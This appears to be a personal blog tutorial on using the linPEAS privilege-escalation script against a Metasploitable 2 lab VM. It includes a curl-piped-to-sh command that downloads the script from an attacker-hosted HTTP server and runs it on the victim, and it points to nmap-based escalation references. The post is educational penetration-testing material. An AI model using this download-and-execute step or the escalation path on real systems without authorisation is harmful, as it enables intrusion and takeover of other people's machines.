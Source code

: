 ```yaml
---
title:  "Day 27 - linPEAS - 100 tools in 100 days!"
excerpt: "In this post, I will show you the tool linPEAS and how it works."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . What is linPEAS?
<br>
4 . Why use linPEAS?
<br>
5 . How to use linPEAS?
<br>
6 . Summary

---

# Moving forward in this series I will start introducing tools outside of Kali Linux or Parrot OS, this is one of many to come!


## This post is designed to introduce you to Carlos Polop's tool linPEAS.

![](https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/linPEAS/images/linpeas.png)

# <span style="color:red">***Disclaimer***</span>: **Please only use linPEAS for professional and educational reasons. Do not use this tool for nefarious or malicious reasons.**

---

### 1. **Introduction**

Welcome to the **twenty-seventh** blog post of 100 tools in 100 days.<br> 

Find **linPEAS** [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS).

Find **HackTricks** and the linPEAS guide [here](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist).


PEASS (Privilege Escalation Awesome Script Suite) is a resource developed and maintained by Carlos Polop. 

If you would like to read my blog about Carlos Polop's book HackTricks please go [here](https://matthewomccorkle.github.io/day_010_hacktricks/).

Below are links to his platforms:<br>
[PEASS](https://github.com/carlospolop/PEASS-ng)<br>
[linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)<br>
[LinkedIn](https://www.linkedin.com/in/carlos-polop-martin)<br>
[GitHub](https://github.com/carlospolop)<br>
[Twitter](https://twitter.com/carlospolopm)<br>
[Discord](https://discord.gg/hRep4RUj7f)<br>

---

### 2. **My Setup**

For running the linPEAS tool, I used Kali Linux in a VMware Workstation 16 Player virtualized environment.

For my vulnerable host, I am using the Metasploitable 2 instance running in a VMWare Workstation 16 Player virtualized environment. 

---

### 3. **What is linPEAS?**

linPEAS is an awesome script developed by Carlos Polop that finds privilege escalation points in Linux. He also developed winPEAS and macPEAS for Windows and Macintosh respectfully.


---

### 4. **Why use linPEAS?**

Imagine you are hacking one of the Linux machines on Hack The Box and you finally are logged in as a user. You obtained the user flag, but still need to get the root flag. Since as a user you likely have some privileges you can use linPEAS to determine how you can escalate your privileges to root. 

Everyone that has done Hack The Box knows that the Root flag is always the one that gives the attacker the most thrill of achieving. 


---

### 5. **How to use linPEAS?**

For this scenario, the following are assumed:

1 . I have gained access to a vulnerable Linux device as a non-root user. I will have my access through SSH.

2 . I have enough permissions to run a script as the user on the Linux device.

Please check out the different ways to get the linPEAS script onto the victim device [here](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS#quick-start).

    Step 1:
    I am going to host the linPEAS script on my attack box using a Python3 http server.

    python3 -m http.server 8989

<br>

    Step 2:
    In my SSH shell, I am going to use curl to grab the script from my HTTP server.

    curl <IP_ADDRESS OF KALI>:8989/linpeas.sh | sh

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas1.PNG)

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas4.PNG)

    Step 3:
    As linPEAS runs, you will have a nice colorful output 
    on your terminal (if your terminal supports color). 

    We are looking for privilege escalation vectors that are 95% likely to work which will be highlighted yellow with red text.

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas2.PNG)

<br>

    Step 4:
    As I scrolled through my linPEAS output I found that nmap may offer a 95% privilege escalation vector. 

    Thanks to Carlos you can see how to escalate your privileges by referring to the link in each section of linPEAS output.

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas3.PNG)

[Link to SUDO and SUID @ HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

I created this user 'jimmy' just for this blog and gave them no additional permissions, but as we can see there may be an escalation point located at /usr/bin/nmap.

Since linPEAS found a possible bin entry point I am going to head to GTFO bins and see what it says about escalation from /usr/bin/nmap [here](https://gtfobins.github.io/#nmap).

As we can see in the below screenshot, nmap likely offers many opprtunities to escalate our privileges from jimmy to a SUDO user or root. 

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/linpeas/linpeas5.PNG)


This is as far as I am going to take the blog in terms of using linPEAS. You could research further through GTFOBins and the HackTricks book to find out how to exploit the nmap binary located at /usr/bin/nmap.

### 6. **Summary**

linPEAS is a Linux privilege escalation suite developed by Carlos Polop, the same creator of HackTricks which I wrote about on day 10 [here](https://matthewomccorkle.github.io/day_010_hacktricks/).

linPEAS is part of a suite of escalation tools called the PEASS (Privilege Escalation Awesome Script Suite), which features escalation scripts for Windows and Macintosh all developed by Carlos. 

I hope you enjoyed this blog post.

Thanks for reading!<br>

If you have suggestions for what tool to cover next, [contact](mailto:matthew.o.mccorkle@gmail.com) me!
